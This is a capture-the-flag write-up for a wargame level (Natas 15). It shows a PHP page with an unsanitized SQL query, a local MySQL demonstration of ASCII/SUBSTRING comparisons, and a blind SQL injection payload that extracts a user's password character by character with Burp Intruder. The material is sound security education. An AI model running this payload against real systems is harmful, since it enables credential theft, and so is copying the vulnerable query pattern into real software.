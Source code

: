 # Level 15
Pushing things further, here we do Blind SQL injection. Also, we'll make a python script to do the same.

##  Quest
We are presented with a simple page that checks if a user exists or not.
![Level 15 Image](./images/Level15.png)

Backend code is similar to previous level with some important changes
```php
<?
/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas15', '<censored>');
    mysql_select_db('natas15', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>
```
<br/><br/>
## Solution
From the source code, we can see that<br/>
 - Again unsanitized user input is inserted into query.<br/>
 - Although no output is displayed after query execution, we can make use of blind SQL injection.<br/>
 - When query succeeds, we get _user exists_, and when it fails, we get _user doesn't exist_ msg. we'll leverage this behaviour<br/>
 - Additionally, we can see that there is a debug parameter, which displays query on screen.<br/>
 - Lastly, there is a users table with username and password column.<br/>

Here is what was done.
1. Firstly, check if user `natas16` exist, it does, and we want its password.
2. Below is a log from my local linux lab to make use of `ascii` and `substring` function to smuggle password.
```sql
# Testing query in Lab
# Our Sample table
mysql> select * from books;
+---------+--------------+-----------+----------+
| book_id | name         | author    | released |
+---------+--------------+-----------+----------+
|       1 | Big Magic    | Elizabeth |        1 |
|       2 | Brown Farm   | AK        |        0 |
|       3 | Malgudi Days | R.K.N     |        1 |
+---------+--------------+-----------+----------+
3 rows in set (0.00 sec)

# We compare first character of author name with ascii code  # Below is a successful attempt
mysql> select * from books where name = 'Big Magic' and ASCII(SUBSTRING(author, 1, 1)) = 69;
+---------+-----------+-----------+----------+
| book_id | name      | author    | released |
+---------+-----------+-----------+----------+
|       1 | Big Magic | Elizabeth |        1 |
+---------+-----------+-----------+----------+
1 row in set (0.00 sec)

# Below is an unsuccessful attempt
mysql> select * from books where name = 'Big Magic' and ASCII(SUBSTRING(author, 1, 1)) = 70;
Empty set (0.00 sec)
```
Lets focus on second query
```sql
select * from books where name = 'Big Magic' and ASCII(SUBSTRING(author, 1, 1)) = 69;
```
`SUBSTRING(author, 1, 1)` refers to the first character and `ASCII` converts that first character to its ASCII code.
So, Above query will return a row if the ASCII code of first character of the name of author is equal to 69, i.e. E

Now we build our payload accordingly.<br/>
Our payload -> `GET /index.php?username=natas16" AND ASCII(SUBSTRING(password,1,1))=65;#&debug=true HTTP/1.1`
Just like above, we are checking if the first character of password of user natas16 has ascii code of 65 .i.e. its A
Below we send this to Burp, our failed attempt

![Level 15 solution](./images/Level15_solution.png)

Our successfull attempt, Now we know, our password begins with word 'W', ascii code 87.

![Level 15.1 solution](./images/Level15.1_solution.png)

Now instead of doing every character one by one, we use Burp intruder. we manually change the `password(1,1)` -> `password(2,1)` for finding second character and so on. This process will repeat till we find all characters. Here password is 32 characters long. On 33rd attempt, intruder will not find any character and we know that we are done.

![Level 15.2 solution](./images/Level15.2_solution.png)

Payload settings
![Level 15.3 solution](./images/Level15.3_solution.png)

We found the second password character.
![Level 14.4 solution](./images/Level15.4_solution.png)

